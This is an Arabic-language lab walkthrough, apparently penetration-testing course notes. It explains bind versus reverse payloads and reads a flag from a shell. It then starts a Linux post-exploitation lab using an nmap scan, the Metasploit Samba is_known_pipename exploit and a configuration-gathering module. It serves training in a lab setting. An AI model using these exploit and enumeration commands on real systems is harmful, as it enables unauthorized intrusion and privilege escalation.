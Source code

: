 طبعا لابد يكون الـ payload bind_tcp والفرق بين البايند والريفيرس  

البايند = حنا نتصل بالتارقت  
الريفيرس = التارقت يتصل فينا  


والان نشوف انه تم الاستغلال المطلوب مننا فقط نقرا الفلاق  
```bash
shell
cd /  
dir  
type flag.txt  
```  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الثامن الي هو  

Linux: Post Exploitation Lab I
------------------------------|  

طبعا في هذا اللاب راح نتكلم عن ايش ممكن تسوي بعد ماتستغل المشين بالتحديد اذا كانت لينكس مشين  

راح نشوف بعض الموديول الي راح تساعدنا او تخدمنا في هذا  

طبعا فيه اداة اسمها linpeas تسوي لك كلشي حرفيا بامر واحد ف مايحتاج تستخدم موديولز كثيره  

لكن الان بنتبع الطريقه المشروحه وهي metasploit modules  

راح نفحص التارقت اول طبعا يانفحص كامل الشبكة او ناخذ اخر ديجت ونزود 1 كاختصار  
```bash
nmap -sS -sV -p- 192.162.5.3  
```  

طبعا نعرف ان الـ samba هنا مصاب ف نستغل مباشرة لانه متكرر  
```bash
msfconsole  
use exploit/linux/samba/is_known_pipename  
set RHOST 192.162.5.3  
check
exploit  
```  

طبعا الان اخذنا الشيل الان راح نبدا نستخدم الموديولز الي بتساعدنا بجمع المعلومات عن التارقت مشين  

اول شي نخلي السيشن بالخلفيه  
```bash
bg or background or press [CTRL + Z]  
```  

اول موديول راح ناخذه الي هو  
```bash
use post/linux/gather/enum_configs  
set SESSION 1  
run  
```  

طبعا نشوف انه عطانا معلةمات مثل انه Debian GNU/Linux 8 ومعلومات ثانيه ممكن تفيدنا كثير بتصعيد الصلاحيات  
